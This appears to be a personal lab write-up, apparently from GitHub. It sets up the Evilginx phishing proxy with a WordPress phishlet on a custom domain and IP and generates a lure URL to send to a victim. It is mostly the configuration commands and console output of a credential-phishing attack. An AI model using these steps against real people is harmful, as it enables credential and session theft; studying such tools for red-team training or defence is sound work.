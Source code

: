 ```
config domain <your domain>
```

<img width="768" height="404" alt="Screenshot 2025-07-23 223223" src="https://github.com/user-attachments/assets/4b8952af-b13e-40d8-9f24-53e3353572d7" />


Use your Droplets ipv4
```
config ipv4 external <ip address>
```

```
config ipv4 external 146.190.223.207
```
In my Namecheap DNS, I've made sure to add 3 A records for `login, make, and profiles`

<img width="1142" height="333" alt="Screenshot 2025-07-24 213348" src="https://github.com/user-attachments/assets/c31d7edd-1768-451b-b619-67602a3d4482" />

Add the wordpress phishlet into the evilginx folder

Then we can relaunch evilginx and hide the default example

```
phishlets hide example
```

```
phishlets hostname wordpress.org khangtran.shop
```

```
phishlets enable wordpress.org
```
Below, we have random bots getting blacklisted because they try to authenticate to random wordpress instances, but are blacklisted because they do not have the correct `lure`

<img width="660" height="469" alt="Screenshot 2025-07-24 013516" src="https://github.com/user-attachments/assets/c62b166e-4bde-4c5c-910e-81c243f38e81" />


```
lures create wordpress.org
```

```
lures get-url 0
```


Now all the blacklisting has stopped and we see this

```
: lures get-url 0

https://khangtran.shop/vVRBAqQA

: 2025/07/24 05:37:34 [037] WARN: Cannot handshake client login.wordpress.org EOF
2025/07/24 05:37:34 [036] WARN: Cannot handshake client login.wordpress.org EOF
```

Now we can send this lure to a victim
```
https://khangtran.shop/vVRBAqQA
```
